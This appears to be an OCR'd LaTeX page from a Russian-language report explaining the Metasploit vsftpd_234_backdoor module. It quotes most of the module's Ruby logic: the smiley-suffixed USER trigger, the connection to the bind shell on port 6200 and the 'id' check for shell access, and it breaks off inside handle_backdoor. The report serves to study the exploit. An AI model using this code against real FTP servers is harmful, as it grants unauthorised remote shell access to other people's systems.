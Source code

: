 \documentclass{article}
\begin{document}
\begin{itemize}
 	
 	
 	\item Далее рассмотрим exploit - vsftpd\_234\_backdoor. 
 	
 	Путь: \verb'/usr/share/metasploit-framework/modules/exploit/unix/ftp/vsftd_234_backdoor.rb'.
 	
 	Здесь все аналогично, остановимся на логике эксплоита.
 	
 	Сначала происодит попытка подключения по порту 6200.
 	
 	\begin{verbatim}
 	nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
 	if nsock
 	print_status("The port used by the backdoor bind listener is already open")
 	handle_backdoor(nsock)
 	return
 	end
 	\end{verbatim}
 	
 	Далее, если сокет открыт на ftp сервер отправляется рандомный пользователь и пароль, так же осуществляются проверки на доступ только анонимным пользователям и на ответ сервера:
 	
 	\begin{verbatim}
 	sock.put("USER #{rand_text_alphanumeric(rand(6)+1)}:)\r\n")
 	resp = sock.get_once(-1, 30).to_s
 	print_status("USER: #{resp.strip}")
 	
 	if resp =~ /^530 /
 	print_error("This server is configured for anonymous only and the backdoor code cannot be reached")
 	disconnect
 	return
 	end
 	
 	if resp !~ /^331 /
 	print_error("This server did not respond as expected: #{resp.strip}")
 	disconnect
 	return
 	end
 	
 	sock.put("PASS #{rand_text_alphanumeric(rand(6)+1)}\r\n")
 	\end{verbatim}
 	
 	Далее не получая ответа на ввод пароля просто пытаемся запустить backdoor:
 	
 	\begin{verbatim}
 	nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
 	if nsock
 	print_good("Backdoor service has been spawned, handling...")
 	handle_backdoor(nsock)
 	return
 	end
 	\end{verbatim}
 	
 	Payload запускается в методе handle\_backdoor:
 	
 	\begin{verbatim}
 	def handle_backdoor(s)
 	
 	s.put("id\n")
 	
 	r = s.get_once(-1, 5).to_s
 	if r !~ /uid=/
 	print_error("The service on port 6200 does not appear to be a shell")
 	disconnect(s)
 	return
 	end
 	

\end{verbatim}
\end{itemize}
\end{document}
